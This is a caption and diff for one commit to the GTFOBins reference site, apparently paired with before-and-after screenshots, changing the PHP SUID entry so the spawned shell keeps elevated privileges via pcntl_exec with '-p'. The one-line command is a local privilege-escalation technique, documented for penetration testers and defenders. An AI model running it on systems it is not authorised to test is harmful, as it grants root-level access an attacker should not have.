

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/php.md, in a window 1280 px wide. Shown: the part 1708-2001 px from the top of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Fix suid in PHP

```diff
--- a/_gtfobins/php.md
+++ b/_gtfobins/php.md
@@ -41,7 +41,7 @@ functions:
   suid:
     - code: |
         CMD="/bin/sh"
-        ./php -r "system('$CMD');"
+        ./php -r "pcntl_exec('/bin/sh', ['-p']);"
   sudo:
     - code: |
         CMD="/bin/sh"
```
